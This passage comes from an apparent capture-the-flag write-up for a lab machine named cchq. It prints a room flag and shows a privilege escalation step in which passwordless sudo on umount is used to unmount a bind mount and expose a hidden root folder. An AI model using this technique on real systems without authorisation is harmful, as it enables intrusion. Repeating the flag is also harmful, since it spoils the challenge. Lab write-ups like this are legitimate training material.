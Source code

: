 Varg's flag: `THM{3a33063a4a8a5805d17aa411a53286e6}`

# Get full root privileges

*Hint: To mount or not to mount. That is the question.*

Varg can run `umount` as root without password. However, checking on GTFOBins doesn't reveal any privilege escalation with `umount`.

~~~
varg@cchq:~$ sudo -l
Matching Defaults entries for varg on cchq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User varg may run the following commands on cchq:
    (root) NOPASSWD: /bin/umount
~~~

Checking in the `fstab` file reveals that there is a mounted partition in `/opt/CooctFS`:

~~~
varg@cchq:~$ cat /etc/fstab
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
# <file system> <mount point>   <type>  <options>       <dump>  <pass>
# / was on /dev/ubuntu-vg/ubuntu-lv during curtin installation
/dev/disk/by-id/dm-uuid-LVM-mrAx163lW73D8hFDlydZU2zYDwkd7tgT28ehcZQNMmzJmc0XKYP9m3eluIT1sZGo	/	ext4	defaults	0 0
# /boot was on /dev/sda2 during curtin installation
/dev/disk/by-uuid/6885d03d-f1fb-4785-971e-2bb17a3d22e3	/boot	ext4	defaults	0 0
#/swap.img	none	swap	sw	0 0
/home/varg/cooctOS_src	/opt/CooctFS	none	defaults,bind	0 0
~~~

Unmounting the partition reveals a `root` folder:

~~~
varg@cchq:~$ cd /opt/CooctFS/
varg@cchq:/opt/CooctFS$ ll
total 44
drwxrwx--- 11 varg os_tester 4096 Feb 20 15:44 ./
drwxr-xr-x  3 root root      4096 Feb 20 14:30 ../
drwxrwx---  2 varg os_tester 4096 Feb 20 15:46 bin/
drwxrwx---  4 varg os_tester 4096 Feb 20 15:22 boot/
drwxrwx---  2 varg os_tester 4096 Feb 20 15:10 etc/
drwxrwx---  2 varg os_tester 4096 Feb 20 15:41 games/
drwxrwxr-x  8 varg os_tester 4096 Feb 20 15:47 .git/
drwxrwx---  3 varg os_tester 4096 Feb 20 14:44 lib/
drwxrwx--- 16 varg os_tester 4096 Feb 20 15:21 run/
drwxrwx---  2 varg os_tester 4096 Feb 20 09:11 tmp/
drwxrwx--- 11 varg os_tester 4096 Feb 20 15:20 var/
varg@cchq:/opt/CooctFS$ cd
varg@cchq:~$ sudo /bin/umount /opt/CooctFS 
varg@cchq:~$ ls -la /opt/CooctFS/
total 12
drwxr-xr-x 3 root root 4096 Feb 20 09:09 .
drwxr-xr-x 3 root root 4096 Feb 20 14:30 ..
drwxr-xr-x 5 root root 4096 Feb 20 09:16 root
~~~
